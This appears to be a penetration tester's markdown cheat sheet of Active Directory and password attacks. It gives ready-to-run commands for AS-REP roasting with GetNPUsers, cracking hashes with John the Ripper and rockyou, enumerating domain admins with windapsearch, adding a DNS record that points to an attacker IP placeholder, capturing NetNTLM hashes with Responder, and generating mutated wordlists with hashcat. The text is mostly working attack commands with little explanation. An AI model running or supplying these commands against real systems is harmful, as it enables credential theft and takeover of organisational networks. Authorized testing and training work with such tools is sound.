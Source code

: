 john the ripper example (wordlist mutation)
```
john --format=raw-sha512 --wordlist=/usr/share/wordlists/rockyou.txt passwordfile  --rules
```

## Kerberos / AD
### Identify a user (OSINT, user bruteforce, kerbrute a possible user list)
 See https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

### Unautheneticated ticket:
    python3 GetNPUsers.py DOMAIN/User -no-pass

with the resulting hash: 
$krb5asrep$23$user@DOMAIN:HAAAAAAAAAAAAAAAAAAASH

```
john --wordlist=/usr/share/wordlists/rockyou.txt result.hash
john --wordlist=/usr/share/wordlists/rockyou.txt 
john --show <filename>
```

### Enumerate AD via ldap

https://github.com/ropnop/windapsearch

```
./windapsearch.py --dc-ip 10.10.10.1 -u user@domain.local -p Password123 -U -G --da -m "Remote Desktop Users"
``` 
This will enumerate all users and groups, find domain adminstrators, and RDP users. Other things too, read docs.

### Add a DNS entry
https://github.com/Sagar-Jangam/DNSUpdate

```./DNSUpdate.py -DNS 10.10.10.1 -u domain.local\\user.name -p password -a ad -r subdomain.domain.local -d <ATTACK-IP>```

### Capture NetNTLM2 hashes via www-authenticate, if you can get someone to authenticate.
```sudo responder -I tun0  -v ```
crack with john.


### Generates year permutations of a wordlist
```bash
for i in $(cat pwdlist.txt); do echo $i; echo ${i}2019; echo ${i}2020;echo ${i}\!; done > pwlist.txt

hashcat --force --stdout pwlist.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule | sort -u | awk 'length($0) > 7 ' > wordlist.txt
```
 
### impacket summary
